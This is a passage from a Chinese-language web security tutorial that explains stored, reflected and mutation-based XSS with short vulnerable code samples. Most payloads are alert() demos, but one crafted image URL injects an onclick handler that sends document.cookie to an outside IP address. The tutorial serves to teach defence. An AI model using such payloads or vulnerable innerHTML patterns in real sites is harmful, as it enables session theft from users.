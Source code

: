 ## 攻击手段

Web 应用的攻击方式多种多样，通常的攻击方式包括脚本攻击和网络劫持。

#### 脚本攻击

> mutation n. 突变；变化

脚本攻击常见的有 XSS、SQL 注入和 CSRF。

##### XSS

XSS，Cross-site Scripting，跨站脚本，带有页面可解析内容的数据未经处理直接插入到页面上解析导致的攻击。根据攻击脚本的引入位置，XSS 分为存储型 XSS、反射型 XSS 和突变型 XSS（MXSS）：

* 存储型 XSS：前端提交的数据在未经处理的情况下，**持久化存储**到服务器文件或数据库，之后前端从服务端读取又直接插入到页面导致

  ```
  <!-- 未经处理存储数据直接插入到页面 -->
  <div>{{ content }}</div>
  
  <!-- 存储内容是可解析脚本，渲染后的内容输出 -->
  <div><script>alert();</script></div>
  ```

* 反射型 XSS：服务端直接从请求页面 URL 中不合法内容，未加处理的**直接反射回响应**中，导致攻击代码在客户端执行

  ```
  <!-- Node服务直接读取URL参数并渲染要页面 -->
  let name = req.query['name'];
  this.body = `<div>${name}</div>`;
  
  <!-- 如果URL参数是脚本，则得到的页面内容 -->
  <div><script>alert();</script></div>
  ```

* MXSS：Mutation-based Cross-Site Scripting，又称 DOM XSS，页面渲染时攻击数据进入 DOM 后发生突变导致的攻击，通常是由于使用 innerHTML 导致。**常见的攻击场景是：用户输入数据或 URL 参数值被未加检测地 innerHTML 到页面 DOM 中，所以，在使用 innerHTML 时一定要提醒自己是否需要对插入数据进行校验！**

  > Mutation，/mjuː'teɪʃ(ə)n/ n. [遗] 突变；变化；

  ```
  <!-- 页面元素渲染时含有可解析标签 -->
  <p class="class-a {{b}}"></p>
  
  <!-- 插入恶意脚本内容后的输出 -->
  <p class="class-a "><script>alert();</script><p class="class-b"></p>
  ```

  再例如，移动端通常使用 URL 参数携带图片链接，然后在新页面显示一张图片以利用长按保存功能

  ```
  <!-- URL链接 -->
  https://a.com?img=https%3A%2F%2Fa.com%2Fimg.jpg"%20onclick="confirm(location.href=%27http://10.33.82.163/?id=%27%20+%20document.cookie)
  
  <!-- 获取img参数后innerHTML -->
  let match = url.match(/img=([^&$]*)/);
  let $poster = document.getElementById('poster');
  
  if (match) {
  	$poster.innerHTML = '<img src="' + decodeURIComponent(match[1]) + '"/>';
  }
  
  <!-- DOM结构，点击图片会携带Cookie到指定href -->
  ...
  <div id="poster">
      <img src="https://a.com/img.jpg" 
      	onclick="confirm(location.href='http://10.33.82.163/?id=' + document.cookie)">
  </div>
  ```